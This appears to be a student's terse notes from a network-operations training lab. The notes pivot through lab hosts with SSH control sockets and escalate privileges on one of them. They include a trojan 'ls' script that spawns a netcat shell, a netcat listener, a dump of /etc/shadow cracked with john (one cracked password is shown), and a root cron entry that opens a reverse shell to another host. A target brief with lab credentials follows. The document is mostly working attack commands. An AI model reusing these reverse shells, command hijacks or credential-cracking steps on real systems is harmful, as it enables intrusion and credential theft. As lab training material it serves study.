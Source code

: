 student@lin-ops:~$ ssh -MS /tmp/gray student@10.50.36.239
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1470:192.168.28.105:2222
student@lin-ops:~$ ssh -MS /tmp/orange comrade@0.0.0.0 -p 1470
student@lin-ops:~$ ssh -S /tmp/orange orange -O forward -L 1473:192.168.28.27:22
student@lin-ops:~$ ssh comrade@localhost -p 1473
comrade@lin2
student@lin-ops:~$ ssh -S /tmp/orange orange -O forward -L 1474:192.168.28.12:22
student@lin-ops:~$ ssh comrade@localhost -p 1474
comrade@lin1



On COMRADE@LIN2
make a script called ls
#!/bin/bash
nc 127.0.0.1 5555 -e /bin/bash
nc -lvp 5555
now being run as billybob
ls -la /home
see flag and a word list
cat /etc/shadow
john --wordlist=<wordlist file> <file w hashes, delete users w/ out hashes>
# ghjcnbnenrf      (zeus)
log in as zeus 
find flag in root directory
vim /etc/crontab
* *     * * *   root    nc 192.168.28.135 33403 -e /bin/bash
runs every minute
check tmp directory for flag










Target Section:

Pivot
Hostname: Donovian-Terminal
IP: 192.168.28.105
OS: Ubuntu 18.04
Creds: comrade :: StudentReconPassword
Last Known SSH Port: 2222
PSP: rkhunter
Malware: none
Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

T1
Hostname: unknown
IP: 192.168.28.27
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

T2
Hostname: unknown
IP: 192.168.28.12
OS: Linux ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: unknown
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
